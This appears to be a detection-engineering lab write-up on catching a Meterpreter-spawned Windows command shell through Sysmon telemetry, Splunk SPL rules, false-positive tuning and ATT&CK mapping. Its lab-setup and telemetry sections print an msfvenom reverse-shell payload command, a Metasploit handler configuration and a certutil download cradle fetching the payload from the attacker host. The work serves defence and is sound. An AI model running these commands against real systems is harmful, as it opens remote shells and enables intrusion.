



# T1059.003 — Windows Command Shell (cmd.exe) via Meterpreter C2

# 1. Scenario

A Meterpreter `reverse_tcp` payload is delivered to the target via a `certutil` download cradle, executed, and used to spawn an interactive Windows command shell (`cmd.exe`). The operator then runs a short host-discovery burst inside that shell.

The detection thesis is **process lineage, not command content**: every individual recon command (`whoami`, `ipconfig`, …) is benign in isolation. The malicious signal is the *parent* — `cmd.exe` spawned by an unsigned binary running from a user-writable path (`C:\temp_test\update.exe`), which in turn beacons to a remote host. The primary rule scores this spawn on parent path and argument shape; a supporting correlation rule raises confidence when host discovery follows inside the same shell.

---

# 2. Lab Setup

| Component | Detail |
|---|---|
| Target | Windows 11 (`DESKTOP-MJ170VE`), Sysmon (SwiftOnSecurity config) + Splunk Universal Forwarder |
| Attacker | Kali Linux `192.168.56.102` (VirtualBox host-only network) |
| C2 | Metasploit `multi/handler`, `windows/x64/meterpreter/reverse_tcp`, LPORT 4444 |
| Delivery | `python3 -m http.server 8080` serving `update.exe` |
| SIEM | Splunk, `index=sysmon` |


### Payload generation (Kali)

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.102 LPORT=4444 -f exe -o update.exe
```

```
Payload size: 510 bytes
Final size of exe file: 7680 bytes
Saved as: update.exe
```

Handler:

```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.56.102
set LPORT 4444
exploit
[*] Started reverse TCP handler on 192.168.56.102:4444
```

---

# 3. Execution / Attack Chain

The full chain, reconstructed from Sysmon telemetry (all timestamps and PIDs are real lab values):

| Time | Stage | Evidence | ATT&CK |
|---|---|---|---|
| 13:39:38 | Delivery | `powershell.exe → certutil.exe -urlcache -split -f http://192.168.56.102:8080/update.exe` | T1105, T1140 |
| 13:42:29 | Execution | `C:\temp_test\update.exe` started (PID 7924) | — |
| 13:42:33 | **Command shell** | `update.exe (7924) → cmd.exe (7528)` | **T1059.003** |
| 13:43:32 | C2 beacon | `update.exe → 192.168.56.102:4444` | T1571 |
| 13:44:00 | Discovery burst | `cmd.exe → ipconfig / net / systeminfo / whoami` | T1059.003 + Discovery |

Operator view from the Meterpreter session — note the PID matches the Sysmon record exactly:

```
meterpreter > shell
Process 7528 created.
Channel 1 created.
Microsoft Windows [Version 10.0.26200.8655]
C:\temp_test>whoami
desktop-mj170ve\tevfil türkoğlu
```



---

# 4. Telemetry

### 4.1 Delivery — certutil download cradle (T1105 / T1140)

Sysmon EID 1:

```
_time:             2026-06-29 13:39:38.203
ParentImage:       C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Image:             C:\Windows\System32\certutil.exe
CommandLine:       certutil.exe -urlcache -split -f http://192.168.56.102:8080/update.exe C:\temp_test\update.exe
IntegrityLevel:    High
ProcessId:         18144
ParentProcessId:   6640
```

Sysmon EID 11 (file create) — note the two-step write that exposes the `-urlcache` mechanism:

```
13:39:38.372  certutil → C:\Users\...\INetCache\IE\JTAFK3N3\update[1].exe   (urlcache staging artifact)
13:39:38.377  certutil → C:\temp_test\update.exe                            (final payload)
```

The `INetCache\IE\...\update[1].exe` artifact is the on-disk fingerprint of `certutil -urlcache` performing a network fetch — a durable forensic indicator even when the network event itself is not captured (see Limitations).

### 4.2 Execution + C2 (T1571)

Sysmon EID 1 + EID 3 for the payload:

```
13:42:29.188  EID 1   C:\temp_test\update.exe  ("C:\temp_test\update.exe")           PID 7924
13:43:32.997  EID 3   C:\temp_test\update.exe → 192.168.56.102:4444                  (reverse_tcp)
```

### 4.3 Command shell spawn — the core event (T1059.003)

Sysmon EID 1:

```
_time:             2026-06-29 13:42:33.067
ParentImage:       C:\temp_test\update.exe
Image:             C:\Windows\System32\cmd.exe
CommandLine:       C:\WINDOWS\system32\cmd.exe
IntegrityLevel:    High
ProcessId:         7528           ← matches Meterpreter "Process 7528 created"
ParentProcessId:   7924           ← matches update.exe ProcessId above
```

**Lineage closes numerically:** `update.exe (7924) → cmd.exe (7528)`, and `cmd.exe` PID 7528 equals the PID reported by the Meterpreter session. This is a verified process tree, not an inferred one.

### 4.4 Discovery burst

Sysmon EID 1, recon binaries under `cmd.exe`:

```
13:44:00  ParentImage=C:\Windows\System32\cmd.exe   distinct recon binaries = 4
          → ipconfig.exe, net.exe, systeminfo.exe, whoami.exe
```

Full tree: `update.exe (7924) → cmd.exe (7528) → {ipconfig, net, systeminfo, whoami}`.

---

# 5. Detection Logic

### 5.1 Primary Detection — Unified multi-signal shell-abuse rule (T1059.003 / T1027)

Rather than two separate rules, the technique is detected by a single additive-scoring analytic over `cmd.exe` / `powershell.exe` process creations. It combines two complementary signal families that a real adversary may trigger in either order:

- **Lineage / interactive-shell signals** — for a Meterpreter `shell`, which produces a bare `cmd.exe` from a binary in a suspicious path.
- **Command-line signals** — for the opposite case, an argument-rich encoded/obfuscated invocation (`cmd /c powershell -enc -w hidden ...`).

The two are not mutually exclusive in scope but rarely co-occur on the same event — additive scoring handles this cleanly: each event accrues only the signals that apply to it, and the highest-risk events sort to the top regardless of which family fired.

| Signal | Weight | Meaning |
|---|---|---|
| `susp_path` | 1 | Parent runs from `Temp`, `temp_test`, `Downloads`, `Public`, `ProgramData` (note: `AppData`/`Users` excluded — see §5.3) |
| `bare_cmd` | 1 | `cmd.exe` with no arguments → interactive shell channel |
| `enc` | 2 | Base64 `-enc`/`-encodedcommand` — strongest single indicator |
| `stealth` | 1 | `-w hidden` window suppression |
| `chain` | 1 | `cmd /c powershell` lineage |

[SPL_Query](../../Rules/Splunk-SPL/Execution/command-shell.spl)

Note `ParentImage="*\\cmd.exe"` is not excluded here (unlike a pure lineage rule), because the `cmd /c powershell` chain has `cmd.exe` as its parent and must be allowed through. The `bare_cmd` test is also scoped with `Image LIKE "%cmd.exe"` so PowerShell events don't falsely score on it.

Validated output, all four real events sorting by risk:

```
risk=4  cmd.exe → cmd.exe /c "powershell -nop -w hidden -enc aQB..."   (enc2+stealth1+chain1)  PID 15600←17916
risk=3  cmd.exe → powershell -nop -w hidden -enc aQB...                (enc2+stealth1)          PID 15692←15600
risk=2  update.exe → cmd.exe (bare)                                    (susp_path1+bare_cmd1)   PID 17916←16548
risk=2  update.exe → cmd.exe (bare)                                    (susp_path1+bare_cmd1)   PID 7528←7924
```

Both attack variants — the interactive shell and the encoded command — surface at the top of a single rule; all developer-tool and Splunk noise scores `risk=0`.

> **Tuning lesson:** the first pass (`Image="*\\cmd.exe"`, `sort - _time`, no exclusions) surfaced ~20 rows of Splunk PostgreSQL/`btool` noise above the real event. Known-good parents fell into two families — PostgreSQL init (`initdb`/`pg_ctl`/`postgres`) and Splunk config reads (`splunk.exe`) — both baselined out. A 30-day window then exposed a developer-tooling false-positive class, handled in §5.3.





### 5.2 Supporting Correlation — Discovery burst (Discovery tactic, not T1059.003)

This rule does **not** detect T1059.003; it detects the host-discovery activity that typically follows a successful shell. Its value is correlation: pairing a §5.1 hit ("a suspicious shell opened") with a §5.2 hit ("and recon was run inside it") produces a far higher-confidence incident than either alone. It fires on 3+ distinct recon binaries from the same parent within a 2-minute window.

```spl
index=sysmon EventCode=1
  (Image="*\\whoami.exe" OR Image="*\\ipconfig.exe" OR Image="*\\net.exe"
   OR Image="*\\systeminfo.exe" OR Image="*\\tasklist.exe")
| bin _time span=2m
| stats dc(Image) as distinct_recon values(Image) as tools by _time Computer User ParentImage
| where distinct_recon >= 3
```

Result: `distinct_recon=4`, `ParentImage=cmd.exe` — fired. Mapped techniques: T1016, T1033, T1082, T1087.

### 5.3 False Positive Analysis & Rule Refinement

Widening §5.1 to a 30-day window (before the developer-tool exclusions and command-line weighting) exposed benign `cmd.exe` / `powershell.exe` spawns that had to be tuned out without losing the true positives:

| Class | Example parent | CommandLine pattern | Verdict |
|---|---|---|---|
| **Meterpreter shell** | `C:\temp_test\update.exe` | bare `cmd.exe` (no args) | **True positive** |
| **Encoded command** | `cmd.exe` | `cmd /c "powershell -enc ..."` | **True positive** |
| Developer tooling | `Code.exe`, `claude.exe` | `/d /s /c "wsl -l -q"`, `/c "git config..."`, `REG QUERY ...MachineGuid` | Benign |
| Process-timing probe | `claude.exe` | `powershell -NoProfile -Command "(Get-CimInstance ...).Ticks"` | Benign |
| Privilege test | `runas.exe` | `cmd` | Benign (own test account) |





Refinements applied:

1. **Parent allowlist** extended with `Code.exe`, `claude.exe`, `runas.exe` — VS Code / Claude Code legitimately drive `cmd.exe` for environment probing.
2. **`susp_path` narrowed** — the original regex matched `AppData`/`Users`, scoring every VS Code/Claude spawn. Removing those tokens collapses the developer-tool false positives (their parents live under `AppData\Local\...`), while genuine staging directories remain.
3. **`-NoProfile` rejected as a signal.** An earlier command-line rule keyed on `-nop`/`-NoProfile`, but Claude Code's `powershell -NoProfile -Command "...Ticks"` process-timing calls also carry it. `-NoProfile` is too common in legitimate tooling, so the decisive weight was placed on `-enc` (weight 2) instead. The benign probes carry no `-enc` and no `cmd /c powershell` chain, so they fall below the firing threshold.

> **Caveat:** the `Code.exe` / `claude.exe` exclusions suit a developer workstation but would be wrong on a server or locked-down endpoint where those binaries should not exist — there, their presence is itself the anomaly. Allowlists must be scoped to the host's expected role.


### 5.4 Detection Strategy Mapping (ATT&CK v18 — DET0202 / AN0578)

ATT&CK v18 expresses detection as a Technique → Detection Strategy → Analytic chain. Mapping this lab's rules against **AN0578 — Behavioral Detection of Windows Command Shell Execution**:

| AN0578 dimension | Status | Evidence |
|---|---|---|
| Unusual parent-child (cmd.exe from anomalous parent) | ✅ Covered | §5.1 — `update.exe → cmd.exe`, PID-verified, `susp_path+bare_cmd` |
| Anomalous command-line parameters | ✅ Covered | §5.1 — `cmd /c powershell -enc -w hidden`, `risk=4` |
| Chaining with Discovery | ✅ Covered | §5.2 — recon burst, `distinct_recon=4` |
| Chaining with Credential Access / Lateral Movement | ➖ Not in scope | Not performed in this scenario; would require a separate lab |

Three of AN0578's four behavioral dimensions are exercised with real telemetry; the fourth (credential-access / lateral-movement chaining) was not part of this scenario's adversary actions and is intentionally out of scope rather than untested-but-claimed.

---

# 6. Validation

- **PID correlation:** Meterpreter reported `Process 7528 created`; Sysmon logged `cmd.exe ProcessId=7528` with `ParentProcessId=7924`; `update.exe` logged `ProcessId=7924`. Three independent sources agree on the tree.
- **§5.1 unified detection** scores all attack variants above benign noise: encoded `cmd /c` chain at `risk=4`, `powershell -enc` child at `risk=3`, both bare Meterpreter shells at `risk=2`; all developer-tool / Splunk activity at `risk=0`.
- **§5.2 supporting correlation** fires with `distinct_recon=4`.
- **Delivery** corroborated by both the EID 1 certutil command line and the EID 11 `INetCache` + `temp_test` file writes.

---


# 8. ATT&CK Mapping

| Technique | Name | Evidence |
|---|---|---|
| T1105 | Ingress Tool Transfer | certutil `-urlcache` fetch of `update.exe` from 8080 |
| T1140 | Deobfuscate/Decode Files or Information | certutil download cradle |
| **T1059.003** | **Windows Command Shell** | **`update.exe → cmd.exe` (PID 7528)** |
| T1027 | Obfuscated Files or Information | `powershell -enc <base64>` via `cmd /c` (§5.4) |
| T1571 | Non-Standard Port (C2) | `update.exe → 192.168.56.102:4444` |
| T1016 | System Network Configuration Discovery | `ipconfig /all` |
| T1033 | System Owner/User Discovery | `whoami` |
| T1082 | System Information Discovery | `systeminfo` |
| T1087 | Account Discovery | `net user`, `net localgroup administrators` |

---

# 9. Endpoint vs Network Telemetry — Cross-Reference

This scenario complements the earlier Sliver C2 beacon-timing work. There, the detection signal lived in the network layer (beacon interval / coefficient of variation). Here it lives in the endpoint layer (process lineage). Same adversary objective (interactive C2), two orthogonal telemetry sources — a reminder that robust detection coverage layers both: network catches the beacon, endpoint catches the shell.